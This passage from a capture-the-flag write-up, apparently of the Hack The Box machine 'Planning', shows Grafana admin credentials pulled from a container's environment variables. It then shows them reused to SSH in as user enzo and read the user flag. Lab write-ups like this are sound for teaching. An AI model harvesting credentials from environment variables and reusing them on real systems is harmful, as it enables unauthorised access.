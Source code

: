 

* The shell is running inside a Docker container (`HOSTNAME=7ce659d667d7`), so this is a containerized environment.
* Credentials discovered in environment variables:

  * **Username:** `enzo` (`GF_SECURITY_ADMIN_USER`)
  * **Password:** `RioTecRANDEntANT!` (`GF_SECURITY_ADMIN_PASSWORD`)


### Access as enzo

Log in using the credentials for `enzo`.


```
┌──(venv)─(kali㉿kali)-[~/htb-machine/planning/CVE-2024-9264]
└─$ ssh enzo@10.10.11.68
enzo@10.10.11.68's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Sep 11 02:34:17 PM UTC 2025

  System load:  0.0               Processes:             272
  Usage of /:   69.0% of 6.30GB   Users logged in:       0
  Memory usage: 54%               IPv4 address for eth0: 10.10.11.68
  Swap usage:   3%


Expanded Security Maintenance for Applications is not enabled.

102 updates can be applied immediately.
77 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Sep 11 14:34:19 2025 from 10.10.14.97
enzo@planning:~$ ls
user.txt
enzo@planning:~$ cat user.txt 
e2b59ca14934de1faf7faf2e0f74758d
enzo@planning:~$
```
